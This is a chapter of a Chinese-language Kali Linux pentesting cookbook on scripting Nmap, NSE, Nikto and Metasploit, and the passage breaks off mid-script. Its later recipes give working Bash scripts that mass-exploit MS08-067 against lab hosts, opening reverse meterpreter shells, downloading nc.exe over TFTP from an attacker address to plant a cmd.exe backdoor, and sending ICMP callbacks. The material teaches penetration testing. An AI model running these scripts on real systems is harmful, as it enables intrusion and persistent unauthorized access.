# 第十二章：自动化 Kali 工具

本章将包括以下内容：

+   Nmap 可 grep 输出分析

+   使用 NMAP NSE 执行端口扫描

+   使用 NMAP NSE 自动化漏洞扫描

+   使用 Nikto 自动化 Web 应用扫描

+   带有反向 shell 有效载荷的多线程 MSF 利用

+   带有后门可执行文件的多线程 MSF 利用

+   带有 ICMP 验证的多线程 MSF 利用

+   带有管理员账户创建的多线程 MSF 利用

# 简介

Kali Linux 渗透测试平台提供了大量高效工具，以完成企业渗透测试中常见的任务。然而，也有一些情况下，单一工具不足以完成某项任务。在这种情况下，通常比完全编写新的脚本或程序来完成任务更有效的是，编写利用现有工具的脚本，或根据需要修改它们的行为。常见的自制脚本类型包括用于分析或管理现有工具输出的脚本、将多个工具连接起来的脚本，或将原本必须顺序执行的任务进行多线程处理。接下来，我们将介绍一些自动化和操作现有 Kali Linux 工具的配方。

# Nmap 可 grep 输出分析

Nmap 被大多数安全专家认为是 Kali Linux 平台上最精炼和高效的工具之一。尽管这款工具非常强大且令人印象深刻，但全面的端口扫描和服务识别可能非常耗时。与其在渗透测试中针对特定服务端口进行有针对性的扫描，不如采取一种更好的方法：对所有可能的 TCP 和 UDP 服务进行全面扫描，然后在整个评估过程中参考这些结果。Nmap 提供了 XML 和可 grep 输出格式来帮助这一过程。

理想情况下，你应该熟悉这些格式，以便能够根据需要从输出文件中提取所需的信息。然而，作为参考，本示例将提供一个脚本，用于提取所有识别出在指定端口上运行服务的 IP 地址。

# 准备工作

要使用本食谱中演示的脚本，您需要将 Nmap 输出结果以可抓取的格式进行输出。这可以通过执行 Nmap 端口扫描，并使用`-oA`选项输出所有格式，或使用`-oG`选项专门输出可抓取格式来实现。在提供的示例中，多个系统在同一个 /24 子网中进行了扫描，包括 Windows XP 和 Metasploitable2。有关设置 Metasploitable2 的更多信息，请参考第一章中的 *安装 Metasploitable2* 食谱，*入门指南*。有关设置 Windows 系统的更多信息，请参考第一章中的 *安装 Windows 服务器* 食谱，*入门指南*。此外，本节需要使用文本编辑器（如 Vim 或 GNU nano）将脚本写入文件系统。有关编写脚本的更多信息，请参考第一章中的 *使用文本编辑器（Vim 和 GNU nano）* 食谱，*入门指南*。

# 如何操作...

以下示例展示了 Bash 脚本语言甚至 Bash CLI 如何轻松地从 Nmap 输出的可抓取格式中提取信息：

```
#! /bin/bash

if [ ! $1 ]; then echo "Usage: #./script <port #> <filename>";
exit; fi

port=$1
file=$2

echo "Systems with port $port open:"

grep $port $file | grep open | cut -d " " -f 2

```

1.  为了确保理解脚本的功能，我们将按顺序解释每一行：

    +   脚本的第一行仅指向 Bash 解释器，以便脚本可以独立执行。

    +   脚本的第二行是一个 `if...then` 条件语句，用来测试是否有参数传递给脚本。这只是最基本的输入验证，确保脚本用户了解工具的使用方法。如果工具在没有传递任何参数的情况下执行，脚本将 `echo` 出它的使用说明，并退出。使用说明请求两个参数：端口号和文件名。

    +   接下来的两行将每个输入值分配给更容易理解的变量。第一个输入值是端口号，第二个输入值是 Nmap 输出文件。

    +   然后，脚本将检查 Nmap 可抓取的输出文件，确定是否有任何系统在给定的端口号上运行服务：



1.  当脚本没有任何参数时，输出使用说明。

1.  要使用此脚本，我们需要输入一个要检查的端口号和 Nmap 可抓取输出文件的文件名。

1.  在提供的示例中，对 /24 网络进行了扫描，并生成了一个名为 `netscan.txt` 的可抓取输出文件。

1.  脚本随后用于分析该文件，确定其中是否有任何主机在不同的端口上有活动服务：



在示例中，脚本被运行以确定在端口 `80`、`22` 和 `445` 上运行的主机。脚本的输出声明了正在评估的端口号，并列出了输出文件中任何在该端口上有活动服务运行的系统的 IP 地址。

# 它是如何工作的…

`grep` 命令是一个功能强大的命令行工具，可以在 Bash 中用来从输出或指定文件中提取特定内容。在本食谱提供的脚本中，`grep` 命令用于从 Nmap 可抓取的输出文件中提取给定端口号的任何实例。由于 `grep` 函数的输出包含多个信息片段，因此输出会被传递给 `cut` 函数来提取 IP 地址，然后将其输出到终端。

# 使用 NMAP NSE 执行端口扫描

许多 **Nmap 脚本引擎** (**NSE**) 脚本仅在特定端口上运行服务时适用。考虑使用以下脚本：

+   `smb-vuln-conficker`

+   `smb-vuln-cve2009-3103`

+   `smb-vuln-ms06-025`

+   `smb-vuln-ms07-029`

+   `smb-vuln-regsvc-dos`

+   `smb-vuln-ms08-067`

这些脚本将评估在 TCP 端口 `445` 上运行的 SMB 服务是否存在常见的服务漏洞。如果这些脚本在整个网络上执行，则必须重新进行确定端口 `445` 是否开放以及 SMB 服务是否可以在每个目标系统上访问的任务。这项任务可能已经在评估的扫描阶段完成。Bash 脚本可以用来利用现有的 Nmap 可抓取输出文件，仅对那些运行相关服务的系统执行服务特定的 NSE 脚本。在本例中，我们将演示如何使用脚本从先前的扫描结果中确定运行 TCP `445` 服务的主机，并仅针对这些系统运行前述脚本。

# 准备工作

要使用本食谱中演示的脚本，您需要让 Nmap 输出结果为可抓取格式。这可以通过执行 Nmap 端口扫描，并使用 `-oA` 选项输出所有格式，或使用 `-oG` 选项专门输出可抓取格式来实现。在提供的示例中，多个系统在单个 /24 子网内进行扫描，并包括多个运行 SMB 服务的 Windows 系统。有关设置 Windows 系统的更多信息，请参考第一章中的 *安装 Windows Server* 食谱，*入门*。此外，本部分还需要使用文本编辑器（如 Vim 或 GNU nano）将脚本写入文件系统。有关编写脚本的更多信息，请参考第一章中的 *使用文本编辑器（Vim 和 GNU nano）* 食谱，*入门*。

# 如何操作…

接下来的示例演示了如何使用 Bash 脚本将多个任务顺序执行。在此案例中，首先对 Nmap 可 grep 输出文件进行分析，然后利用该任务识别的信息，执行 NSE 脚本针对不同的系统。具体来说，第一个任务将确定哪些系统在 TCP 端口 `445` 上运行服务，然后对这些系统执行以下脚本：

+   `smb-vuln-conficker`

+   `smb-vuln-cve2009-3103`

+   `smb-vuln-ms06-025`

+   `smb-vuln-ms07-029`

+   `smb-vuln-regsvc-dos`

+   `smb-vuln-ms08-067`

让我们看一下以下的 Bash 脚本：

```
#! /bin/bash

if [ ! $1 ]; then echo "Usage: #./script <file>"; exit; fi

file=$1

for x in $(grep open $file | grep 445 | cut -d " " -f 2); 
do 
 nmap --script smb-vuln-conficker.nse -p 445 $x --script-args=unsafe=1;
 nmap --script smb-vuln-cve2009-3103.nse -p 445 $x --script-args=unsafe=1;
 nmap --script smb-vuln-ms06-025.nse -p 445 $x --script-args=unsafe=1;
 nmap --script smb-vuln-ms07-029.nse -p 445 $x --script-args=unsafe=1;
 nmap --script smb-vuln-regsvc-dos.nse -p 445 $x --script-args=unsafe=1;
 nmap --script smb-vuln-ms08-067.nse -p 445 $x --script-args=unsafe=1;
done

```

1.  为了确保理解脚本的功能，我们将按顺序讲解每一行：

    +   前几行类似于之前讨论的脚本。第一行指向 Bash 解释器，第二行检查是否提供了参数，第三行将输入值分配给易于理解的变量名。

    +   然而，脚本的主体部分有些不同。脚本使用 `for` 循环来遍历通过 `grep` 函数获得的 IP 地址列表。`grep` 函数输出的 IP 地址列表对应于所有在 TCP 端口 `445` 上运行服务的系统。对于这些 IP 地址，每个地址都会执行 NSE 脚本。

    +   只在之前已经确定在 TCP 端口 `445` 上有服务的系统上运行此脚本，可以显著减少运行 NSE 扫描所需的时间：



1.  通过不带任何参数执行脚本，脚本将输出使用说明。该说明指示应提供现有的 Nmap 可 grep 输出文件的文件名。当提供了 Nmap 输出文件时，脚本将快速分析文件，查找任何在 TCP 端口 `445` 上有服务的系统，然后对这些系统执行 NSE 脚本，并将结果输出到终端：



1.  滚动查看终端输出，我们可以看到目标机器易受 MS08-67 漏洞攻击：



在提供的示例中，脚本被传递给了 `netscan.txt` 输出文件。经过快速分析该文件后，脚本确定有两个系统在端口 `445` 上运行服务。接着，对这些服务执行之前列出的脚本，并在终端生成输出。

# 工作原理…

通过将 `grep` 序列作为 `for` 循环的值，实际上 Bash 脚本在此处仅循环遍历该函数的输出。通过独立运行该函数，可以看到它仅提取出运行 SMB 服务的主机的 IP 地址列表。然后，`for` 循环遍历这些 IP 地址，并为每个 IP 执行 NSE 脚本。

# 使用 NSE 自动化漏洞扫描

有时，开发一个将漏洞扫描与利用结合的脚本可能会有所帮助。假设我们想要扫描一组机器，寻找特定的漏洞，并在发现时，对受影响的机器执行该漏洞利用。漏洞扫描通常会产生误报，因此，通过对漏洞扫描结果进行后续的漏洞利用，可以立即验证这些结果的合法性。在这个示例中，将使用 Bash 脚本执行 `smb-vuln-ms08-067.nse` 脚本，以确定主机是否容易受到 MS08-067 NetAPI 漏洞的攻击。如果 NSE 脚本表明主机易受攻击，Metasploit 将被用来自动尝试利用该漏洞进行验证。

# 准备工作

要使用本示例中演示的脚本，您需要访问运行易受攻击服务的系统，该服务可以通过 NSE 脚本识别并通过 Metasploit 进行利用。在提供的示例中，使用的是一台运行 SMB 服务并且容易受到 MS08-067 NetAPI 漏洞攻击的 Windows XP 系统。有关设置 Windows 系统的更多信息，请参考 第一章中的 *安装 Windows Server* 食谱，*入门* 部分。此外，本节还需要通过 Vim 或 GNU nano 等文本编辑器编写脚本到文件系统。有关编写脚本的更多信息，请参考 第一章中的 *使用文本编辑器（Vim 和 GNU nano）* 食谱，*入门* 部分。

# 如何操作...

接下来的示例演示了如何使用 Bash 脚本将漏洞扫描和目标利用这两个任务串联起来。在这个例子中，`smb-vuln-ms08-067.nse` 脚本用于确定系统是否容易受到 MS08-067 攻击，然后，如果系统被发现存在漏洞，相应的 Metasploit 漏洞利用将对该系统执行：

```
#! /bin/bash

if [ ! $1 ]; then echo "Usage: #./script <RHOST> <LHOST> <LPORT>"; exit; fi

rhost=$1
lhost=$2
lport=$3

nmap --script smb-vuln-ms08-067.nse -p 445 $rhost --script-args=unsafe=1 -oN tmp_output.txt
if grep -q VULNERABLE: tmp_output.txt; 
 then echo "$rhost appears to be vulnerable, exploiting with Metasploit...";
 msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST $rhost; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST $lhost; set LPORT $lport; run"
fi
rm tmp_output.txt

```

1.  为了确保脚本的功能得以理解，我们将依次介绍每一行：

    +   脚本的前几行与本章之前讨论的脚本相同。第一行定义了解释器，第二行测试输入，第三、第四和第五行用于根据用户输入定义变量。

    +   在此脚本中，提供的用户变量对应于 Metasploit 中使用的变量。`RHOST` 变量应该定义目标的 IP 地址，`LHOST` 变量应该定义反向监听的 IP 地址，`LPORT` 变量应该定义监听的本地端口。

    +   脚本执行的第一项任务是在目标系统的 IP 地址上执行 `smb-vuln-ms08-067.nse` 脚本，目标系统的 IP 地址由 `RHOST` 输入定义。

    +   结果随后以正常格式输出到一个临时文本文件。

    +   然后，将使用`if...then`条件语句与`grep`函数结合使用，测试输出文件以查找表明系统存在漏洞的唯一字符串。如果发现唯一字符串，脚本将指示系统可能存在漏洞，然后使用`msfconsole -x`执行 Metasploit 利用和 Meterpreter 负载。

    +   最后，在启动利用后，将使用`rm`函数从文件系统中删除临时 Nmap 输出文件。`test_n_xploit.sh` Bash 命令的执行如下：



1.  如果脚本在不提供任何参数的情况下执行，则将输出适当的用法。此用法描述将指示应按顺序使用`RHOST`、`LHOST`和`LPORT`参数执行脚本。这些输入值将同时用于 NSE 漏洞扫描，以及如果有必要的话，用 Metasploit 在目标系统上执行利用。

1.  在下面的示例中，脚本用于确定 IP 地址为`172.16.69.129`的主机是否存在漏洞。如果系统被确定为易受攻击，则将启动利用，并连接到在 IP 地址为`172.16.69.133`、TCP 端口为`4444`上监听的反向 TCP Meterpreter 处理程序：



前面的输出显示，在 NSE 脚本完成后立即执行 Metasploit 利用模块，并在目标系统上返回一个交互式 Meterpreter shell。

# 如何工作…

`msfconsole -x`命令可用于直接从终端执行单行命令，而不必在交互式控制台中工作。这使其在 Bash shell 脚本中的使用非常方便。由于可以从 Bash 终端执行 NSE 脚本和`msfconsole -x`，因此可以轻松编写一个 Shell 脚本来将这两个功能结合在一起。

# 使用 Nikto 自动化 Web 应用程序扫描

Nikto 是 Kali Linux 中的一个命令行工具，可用于评估 Web 应用程序是否存在已知的安全问题。在评估的扫描阶段，我们已经确定了运行 Web 服务的主机。可以使用 Bash 脚本来利用现有的 Nmap 可搜索输出文件，仅针对运行 Web 服务的系统运行 Nikto。在本示例中，我们将演示如何使用脚本来确定从先前扫描结果中运行 TCP 端口`80`上服务的主机，然后仅针对这些系统运行 Nikto。

# 准备工作

要使用本配方中演示的脚本，你需要能够访问运行 Web 服务的系统。在提供的示例中，有两台机器运行 Metasploitable，另外两台运行 Windows XP。有关如何设置 Metasploitable 和 Windows XP 系统的更多信息，请参阅第一章中的*安装 Metasploitable2*和*安装 Windows 服务器*配方，
*入门*部分。此外，本节还需要使用文本编辑器（如 Vim 或 GNU nano）将脚本写入文件系统。有关编写脚本的更多信息，请参阅第一章中的*使用文本编辑器（Vim 和 GNU nano）*配方，*入门*部分。

# 如何做到……

接下来的示例演示了我们如何使用 Bash 脚本语言从 Nmap 的可解析格式中提取信息。然后，我们利用这些信息对运行 Web 服务的主机执行 Nikto 扫描：

```
#! /bin/bash

if [ ! $1 ]; then echo "Usage: #./script <file>"; exit; fi
file=$1

for x in $(grep open $file | grep 80 | cut -d " " -f 2); 
do 
      echo "Nikto scanning the following host: $x" 
      nikto -h $x -F text -output /tmp/nikto-scans/$x.txt
done

```

1.  为了确保脚本功能的理解，我们将按顺序逐行解析：

    +   前几行与之前讨论过的脚本类似。第一行指向 Bash 解释器，第二行检查是否提供了参数，第三行将输入值分配给易于理解的变量名。

    +   `for`循环用于遍历通过`grep`函数获得的 IP 地址列表。`grep`函数输出的 IP 地址列表对应于所有在 TCP 端口`80`上运行服务的系统。

    +   对于这些 IP 地址，我们运行 Nikto 扫描并将结果输出到`/tmp/nikto-scans/`目录。

    +   每个主机将生成不同的输出报告；为了避免命名冲突，我们将输出文件命名为目标机器的 IP 地址。剩下的唯一工作就是创建`nikto-scans`目录：


1.  通过不带任何参数执行脚本，脚本将输出使用说明。该说明表明应提供一个现有的 Nmap 可解析输出文件的文件名。当提供 Nmap 输出文件时，脚本会快速分析文件，查找任何在 TCP 端口`80`上运行服务的系统，然后对这些系统运行 Nikto 扫描，并将输出写入终端和`/tmp/nikto-scans/`目录：



1.  现在，我们可以导航到`/tmp/nikto-scans/`目录，查看 Nikto 为每个扫描的主机创建的文件：



1.  检查`172.16.669.128`的报告时，我们发现 Nikto 的扫描结果：



1.  在提供的示例中，脚本被传递给`netscan.txt`输出文件。通过快速分析该文件，脚本确定有四个系统在`80`端口上运行服务。然后，Nikto 对这些服务进行扫描，结果输出到终端，并为每个主机生成一个文件：


# 工作原理……

通过将 grep 序列作为 `for` 循环的值，本文中的 Bash 脚本实际上就是在循环执行该函数的输出。通过独立运行该函数，可以看到它只是提取出一份与运行 Web 服务的主机相对应的 IP 地址列表。然后，`for` 循环遍历这些 IP 地址，并对每个地址运行 Nikto 扫描。

# 使用反向 shell 有效载荷进行的多线程 MSF 利用

使用 Metasploit 框架进行大规模渗透测试的一大难点是每个利用都必须单独并按顺序执行。在需要确认多个系统中单个漏洞的可利用性时，单独对每个系统进行利用会变得既繁琐又令人不堪重负。幸运的是，通过结合 MSFCLI 和 Bash 脚本的强大功能，可以通过运行单个脚本轻松地在多个系统上同时执行利用。这一示例将演示如何使用 Bash 在多个系统上利用同一漏洞，并为每个系统打开一个 meterpreter shell。

# 准备工作

要使用本示例中的脚本，您需要能够访问多个具有相同漏洞的系统，并且这些漏洞可以通过 Metasploit 进行利用。在提供的示例中，一台运行易受攻击的 Windows XP 版本的虚拟机被复制，生成了三个 MS08-067 漏洞实例。有关如何设置 Windows 系统的更多信息，请参阅 第一章中的 *安装 Windows 服务器* 配方，*入门*。此外，本部分还需要使用如 Vim 或 GNU nano 等文本编辑器将脚本写入文件系统。有关编写脚本的更多信息，请参阅 第一章中的 *使用文本编辑器（Vim 和 GNU nano）* 配方，*入门*。

# 如何操作……

以下示例演示了如何使用 Bash 脚本同时利用同一漏洞的多个实例。这个脚本特别用于通过引用输入的 IP 地址列表来利用 MS08-067 NetAPI 漏洞的多个实例：

```
#!/bin/bash
if [ ! $1 ]; then echo "Usage: #./script <host file> <LHOST>"; exit; fi
iplist=$1
lhost=$2

i=4444
for ip in $(cat $iplist)
do
       gnome-terminal -x msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST $ip; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST $lhost; set LPORT $i; run"
 echo "Exploiting $ip and establishing reverse connection on local port $i"
i=$(($i+1))
done

```

1.  该脚本使用 `for` 循环对输入文本文件中列出的每个 IP 地址执行特定任务。该特定任务包括启动一个新的 GNOME 终端，接着执行 `msfconsole -x` 命令，该命令用于利用该系统的特定漏洞并启动反向 TCP meterpreter shell。由于 `for` 循环为每个 `msfconsole` 利用启动一个新的 GNOME 终端，因此每个利用都作为独立进程执行。这样，多个进程可以并行运行，每个目标都会同时被利用。

1.  本地端口值初始化为 `4444`，每多一个被利用的系统，端口值会递增 `1`，以确保每个 meterpreter shell 连接到不同的本地端口。因为每个进程都在独立的 shell 中执行，所以该脚本需要通过图形桌面界面执行，而非通过 SSH 连接。

1.  `./multipwn.sh` Bash 脚本可以如下执行：



1.  如果脚本在没有任何参数的情况下执行，脚本将输出相应的使用说明。该说明将指出脚本应使用 `LHOST` 变量来定义监听 IP 系统，并提供一个包含目标 IP 地址列表的文本文件的文件名。

1.  一旦使用这些参数执行，新的终端窗口将开始弹出。每个终端将运行输入列表中一个 IP 地址的漏洞利用序列。

1.  原始执行终端将输出正在执行的进程列表。在提供的示例中，三个不同的系统被利用，并为每个系统打开了一个独立的终端。

1.  其中一个终端的示例如下：



1.  每个终端都会启动一个独立的 msfconsole 实例并启动漏洞利用。如果漏洞利用成功，载荷将被执行，并且每个终端都会启动一个交互式的 meterpreter shell。

# 工作原理…

通过为每个进程使用独立的终端，可以通过单一 Bash 脚本执行多个并行漏洞利用。此外，使用递增的 `LPORT` 值分配，还可以同时执行多个反向 meterpreter shell。

# 带有后门可执行文件的多线程 MSF 漏洞利用

本教程将演示如何使用 Bash 脚本在多个系统上利用单一漏洞，并在每个系统上打开一个后门。后门的实现方法是在目标系统上准备一个 Netcat 可执行文件，并开启一个监听服务，接收到连接时执行`cmd.exe`。

# 准备工作

要使用本教程中演示的脚本，你需要访问多个系统，这些系统都有相同的漏洞，可以通过 Metasploit 进行利用。在提供的示例中，复制了一台运行有 Windows XP 漏洞版本的虚拟机，生成了三个 MS08-067 漏洞实例。有关如何设置 Windows 系统的更多信息，请参考 第一章中 *安装 Windows Server* 的食谱 *入门* 部分。此外，本部分还需要使用文本编辑器（如 Vim 或 GNU nano）编写脚本并保存到文件系统中。有关编写脚本的更多信息，请参考 第一章中 *使用文本编辑器（Vim 和 Nano）* 的食谱 *入门* 部分。

# 如何操作…

以下示例展示了如何使用 Bash 脚本同时利用单一漏洞的多个实例。这个脚本特别适用于利用 MS08-067 NetAPI 漏洞的多个实例，方法是引用包含 IP 地址列表的输入：

```
#!/bin/bash

if [ ! $1 ]; then echo "Usage: #./script <host file>"; exit; fi

iplist=$1

i=4444
for ip in $(cat $iplist)
do
  gnome-terminal -x msfconsole -x 
  "use exploit/windows/smb/ms08_067_netapi; set PAYLOAD windows/exec;
   set RHOST $ip; set CMD cmd.exe /c tftp -i 172.16.69.133 GET nc.exe
   && nc.exe -lvp 4444 -e cmd.exe; run"
   echo "Exploiting $ip and creating backdoor on TCP port 4444"
i=$(($i+1))
done

```

1.  这个脚本与前面提到的脚本有所不同，因为这个脚本会在每个目标系统上安装后门。在每个被利用的系统上，会执行一个有效载荷，利用集成的**简易文件传输协议**（**TFTP**）客户端抓取 Netcat 可执行文件，并使用它打开一个监听的 `cmd.exe` 终端服务，监听 TCP 端口 `4444`。

1.  为了使其正常工作，需要在 Kali 系统上运行 TFTP 服务。可以通过执行以下命令来实现：


1.  第一个命令启动 TFTP 服务，使用 UDP 端口 `69` 并将服务目录设置为 `/tmp`。第二个命令用于将 Netcat 可执行文件从 `Windows binaries` 文件夹复制到 TFTP 目录。

1.  现在，我们执行 `./multipwn.sh` Bash 脚本：



1.  如果脚本在没有提供任何参数的情况下执行，脚本将输出相应的用法说明。该用法说明将指出脚本应当带有一个参数，指定一个包含目标 IP 地址列表的文本文件的文件名。

1.  执行时提供此参数后，一系列新的终端将开始弹出。这些终端将分别运行输入列表中每个 IP 地址的利用序列。

1.  原始执行终端将输出正在执行的进程列表，并指出每个终端上将创建一个后门。

1.  在每个终端中的利用序列完成后，可以使用 Netcat 连接到由有效载荷打开的远程服务：



1.  在提供的示例中，连接到成功被利用的系统（IP 地址为 `172.16.69.140`）的 TCP 端口 `4444`，即可远程访问 `cmd.exe` 终端服务。

# 它是如何工作的…

Netcat 是一个功能强大的工具，可用于多种目的。虽然这是远程执行服务的有效方法，但不建议在生产系统中使用这种技术。因为 Netcat 打开的后门可以被任何能够与监听端口建立 TCP 连接的人访问。

# 带有 ICMP 验证的多线程 MSF 利用

本示例将展示如何使用 Bash 脚本在多个系统上利用单一漏洞，并通过 ICMP 流量验证每个系统的成功利用。此技术开销较小，且可以轻松用于收集可利用的系统列表。

# 准备就绪

要使用本食谱中演示的脚本，您需要访问多个系统，每个系统都有相同的漏洞，并且可以使用 Metasploit 进行利用。在提供的示例中，一台运行漏洞版本 Windows XP 的虚拟机被复制以生成三个 MS08-067 漏洞实例。有关设置 Windows 系统的更多信息，请参考 第一章《*安装 Windows Server*》中的相关内容，*入门*。此外，本节还需要使用文本编辑器（如 Vim 或 GNU nano）编写脚本。有关编写脚本的更多信息，请参考 第一章《*使用文本编辑器（Vim 和 GNU nano）*》中的相关内容，*入门*。

# 如何操作……

以下示例演示了如何使用 Bash 脚本同时利用单个漏洞的多个实例。这个脚本特别可以通过引用一个 IP 地址输入列表，来利用 MS08-067 NetAPI 漏洞的多个实例：

```
#!/bin/bash

if [ ! $1 ]; then echo "Usage: #./script <host file>"; exit; fi

iplist=$1

for ip in $(cat $iplist)
do
 gnome-terminal -x msfconsole -x 
  "use exploit/windows/smb/ms08_067_netapi; set RHOST $ip;
   set PAYLOAD windows/exec; set CMD cmd.exe /c
   ping 172.16.69.133 -n 1 -i 15; run"
   echo "Exploiting $ip and pinging"
i=$(($i+1))
done

```

1.  这个脚本与之前讨论的脚本不同，因为负载仅仅是将 ICMP 回显请求从被攻击系统发送回攻击系统。

1.  执行 `ping` 命令时，使用 `-i` 选项来指定一个 **生存时间（TTL）** 值为 `15`。这个替代的 TTL 值用于区分利用生成的流量和正常的 ICMP 流量。

1.  应该执行一个自定义监听器 Python 脚本，通过接收 ICMP 流量来识别被利用的系统。

1.  该脚本如下所示：

```
        #!/usr/bin/python

        from scapy.all import *
        import logging
        logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

        def rules(pkt):
              try:
                    if ((pkt[IP].dst=="172.16.69.133") and
                     (pkt[ICMP]) and pkt[IP].ttl <= 15):
                    print str(pkt[IP].src) + " is exploitable"
             except:
                  pass

        print "Listening for Incoming ICMP Traffic.
         Use Ctrl+C to stop scanning"
        sniff(lfilter=rules,store=0)

```

1.  脚本监听所有传入流量。当收到一个 TTL 值为 `15` 或更低的 ICMP 包时，脚本将该系统标记为可被利用：



1.  监听传入的 ICMP 流量，使用*Ctrl* + *C* 来停止扫描。Python 流量监听器应该首先执行。脚本开始时不应产生任何输出。这个脚本应在整个利用过程期间持续运行。一旦脚本启动，应该启动 Bash 利用脚本。

1.  当脚本执行时，原始终端 Shell 会显示每个系统正在被利用，并且 ping 序列正在执行。每个 IP 地址的新 GNOME 终端也将为输入列表中的每个地址打开。每个利用过程完成后，应该从目标系统发起 ICMP 回显请求：



1.  假设利用成功，Python 监听脚本将识别生成的流量，并将每个 ICMP 流量的源 IP 地址列为 `exploitable`。

# 它是如何工作的……

ICMP 流量可能看起来不像是验证目标系统可利用性的一种直观方式。然而，它实际上效果非常好。单个 ICMP 回显请求不会在目标系统上留下任何利用痕迹，并且不需要过多的开销。此外，`15`的自定义 TTL 值使得生成误报的可能性极小，因为几乎所有系统的 TTL 值初始值都是`128`或更高。

# 多线程 MSF 利用与管理员账户创建

本教程将演示如何使用 Bash 在多个系统上利用单一漏洞，并在每个系统上添加一个新的管理员账户。该技术可用于在稍后通过集成的终端服务或 SMB 身份验证访问被攻破的系统。

# 准备工作

要使用本教程中演示的脚本，您需要访问多个具有相同漏洞的系统，这些系统可以通过 Metasploit 进行利用。在提供的示例中，一台运行易受攻击版本的 Windows XP 的虚拟机被复制，用以生成三个 MS08-067 漏洞实例。有关设置 Windows 系统的更多信息，请参考第一章中的*安装 Windows 服务器*教程，*入门*部分。此外，本节还要求使用如 Vim 或 GNU nano 等文本编辑器将脚本写入文件系统。有关编写脚本的更多信息，请参考第一章中的*使用文本编辑器（Vim 和 GNU nano）*教程，*入门*部分。

# 如何操作…

接下来的示例演示了如何使用 Bash 脚本同时利用多个实例的单一漏洞。特别是，这个脚本可以通过引用 IP 地址输入列表来利用多个 MS08-067 NetAPI 漏洞实例：

```
#!/bin/bash

if [ ! $1 ]; then echo "Usage: #./script <host file> <username>
<password>"; 
exit; fi

iplist=$1
user=$2
pass=$3

for ip in $(cat $iplist)
do
